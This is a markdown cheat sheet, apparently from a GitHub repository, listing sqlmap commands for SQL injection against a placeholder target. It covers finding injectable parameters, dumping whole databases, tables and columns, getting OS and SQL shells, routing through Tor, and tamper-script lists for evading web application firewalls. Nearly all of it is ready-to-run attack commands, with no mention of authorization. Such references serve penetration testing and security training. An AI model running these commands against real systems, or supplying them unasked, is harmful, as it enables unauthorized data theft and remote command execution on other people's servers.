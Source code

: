 # sqlmap 

## Simple Usage

If you don’t know anything about the target site then use the normal command first, 
Observe if the SQLMap found something juicy for you

```sh
sqlmap -u “https://target_site.com/page/”
```

### Automatic GET request parameter
```sh
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”
```
### Specify the GET request parameters to Exploit

You can specify on which parameter you want to check or exploit the sql injection using just “-p” flag.
```sh
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2” -p p1
```

### Use POST requests (Test All parameters)
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"
```

### SQLMap Request file as input

You can specify a request file containing the HTTP request, You can get it quickly from BurpSuite.
```sh
sqlmap -r request.txt
```

### Here you can specify the targeted parameter or sqlmap will recognize and will test for all the parameters found.

!! info "Specify Custom Position in HTTP request file - You can use the asterisk sign(*) to specify which parameter to attack or which place of the request to be attacked. You can specify or mark any part of the request by this method."

### Use Authenticated Session With Cookie
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"
```
### Use Authenticated Session with Auth Headers
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"
```
### Basic Authentication
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password
```
### Use Previously created Session as SQLmap input (-s)

If you got SQL injection positive somewhere, then sqlmap will automatically create a session file(.sqlite) for later use. Now, If you want to try some other commands later, you can use the session file directly (It will save your time to re-try all the possible payloads and identify the vulnerability and all.)

```sh
sqlmap -u “https://target_site.com/page?p1=value1" -s SESSION-FILE.sqlite --dbs
```
## Post Exploitation Commands

If the SQL injection vulnerability is observed positive then you can use the following commands to Exploit the SQL injection vulnerability.

### List the Databases
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --dbs
```
### List Tables of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables
```
### List Columns of Table TARGET_TABLE of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns
```
### Dump Specific Data of Columns of Table TARGET_TABLE of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump
```
### Fully Dump Table TARGET_TABLE of Database TARGET_DB

```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump
```
### Dump full Database

```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump
```

### Custom SQL query

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"
```
### Get OS Shell
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --os-shell
```
### Get SQL shell
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell
```
## SQLMap Proxy

## Proxy through Burpsuite
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --proxy="http://127.0.0.1:8080/"
```
## Use Tor Socks5 proxy
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --tor --tor-type=SOCKS5 --check
```
## Extra

### Specify The Database Type
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --dbms=mysql
```

You can use other DBMS types like MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, Percona, MemSQL, TiDB, CockroachDB, HSQLDB, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB, FrontBase, etc.

## Attack Techniques

`–technique` Specify a letter or letters of BEUSTQ to control the exploit attempts:

```
B: `Boolean-based blind`

E: `Error-based`

U: `Union query-based`

S: `Stacked queries`

T: `Time-based blind`

Q: `Inline queries`
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ
```

### Specify the Injection Techniques

```
You can specify the difficulty levels using two flags,

Option: --risk

–level = LEVEL     Level of tests to perform (1-5, default 1)
–risk=RISK         Risk of tests to perform (0-3, default 1)```sh
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --risk=3 --level=5
```
### This option requires an argument that specifies the risk of tests to perform. There are three risk values.

```
–riks=1: 1 is the default value which is for the majority of SQL injection points.
–riks=2: Adds to the default level the tests for heavy query time-based SQL injections
–riks=3: Value 3 adds also OR-based SQL injection tests.
```

When the value of --level is >= 2 it tests also HTTP Cookie header values. When this value is >= 3 it tests also HTTP User-Agent and HTTP Referer header value for SQL injections.

Use Default Options for the process
Use –batch flag to use all the default options or used for non-interactive sessions. (By specifying –batch flag, sqlmap will not ask you for the (Y/N) choice rather then it will smartly choose according to the needs.)
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --batch
```

### Force SQLmap to use SSL or TLS for its requests.

`–force-ssl flag` - Error: Can’t establish SSL connection

If you getting the following error during testing then you can use the flag `–force-ssl` to force SQLMap to use SSL or TLS.

## Tamper Scripts

You can use the tamper scripts to bypass WAF or to modify the payload. You can use multiple tampering scripts at once using `–tamper` flag.

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --tamper=charencode
```

### For General Perpose Usecase:
```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

### MSSQL:
```
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dsash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

### MySQL:

```
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
OR You can create your own Custom Tamper script to overcome the issue of some type of Encrypted payloads like AES, DES, Hashing, etc.
```
